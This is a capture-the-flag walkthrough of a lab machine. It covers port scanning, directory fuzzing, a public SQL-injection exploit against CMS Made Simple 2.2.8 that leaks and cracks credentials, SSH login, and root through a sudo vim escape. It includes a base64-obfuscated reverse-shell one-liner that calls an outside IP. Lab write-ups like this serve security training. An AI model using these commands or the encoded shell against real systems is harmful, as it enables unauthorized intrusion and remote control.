









## TL;DR

We enumerating the apache server and find hidden directory `/simple` that is running the `Simple CMS`. We detect known `SQLi`, and exploit it to achieve credentials for the ssh server under port 2222. Then, we exploit the sudo permission for `/usr/bin/vim` to gain root shell.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```


We can see port `21` is open with ftp, and port `80` with apache http server. Also port `2222` is open with ssh.
```bash
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Find SQLi vulnerability in Simple CMS, at /simple/ directory

We start with viewing the root page, it looks like default apache page.



Next, we use `ffuf` search for my directories and files:
```bash
┌──(agonen㉿kali)-[~/thm/EasyCTF]
└─$ ffuf -u "http://$target/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt                                 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.180.82/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 291, Words: 22, Lines: 12, Duration: 100ms]
.htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 100ms]
.htpasswd               [Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 100ms]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 89ms]
robots.txt              [Status: 200, Size: 929, Words: 176, Lines: 33, Duration: 89ms]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 92ms]
simple                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 91ms]
```

We can find the directory `simple`, let's go there.



As we can see, there is `Simple CMS` that lay on this directory.
we can also detect the version `CMS Simple version 2.2.8`.



I used `searchsploit` and find there is `SQLi` in this version.



I found this github repo with exploit [https://github.com/fernandobortotti/CVE-2019-9053](https://github.com/fernandobortotti/CVE-2019-9053).

```bash
┌──(agonen㉿kali)-[~/thm/EasyCTF/CVE-2019-9053]
└─$ python3 exploit-cve-2019-9053.py -u http://$target/simple

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```



Using [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) we managed to crack the hash `0c01f4468bd75d7a84c7eb73846e8d96`.



```bash
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2secret
```
So, the password itself is `secret`.

Let's login with these credentials:
```bash
mitch:secret
```

Not the port is `2222`, because this is where the ssh is working.

```bash
ssh mitch@$target -p 2222
```



I pasted the payload from `penelope` to get easier reverse shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```

And now just grab user flag:

```bash
mitch@Machine:~$ cat user.txt 
G00d j0b, keep up!
```


### Privilege Escalation to Root

Which checking for `sudo` permissions we can see we got `/usr/bin/vim` without password.


```bash
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Using [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) we find PE vector.

> sudo vim -c ':!/bin/sh'



And just grab the root flag

```bash
mitch@Machine:~$ sudo vim -c ':!/bin/sh'

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
W3ll d0n3. You made it!
```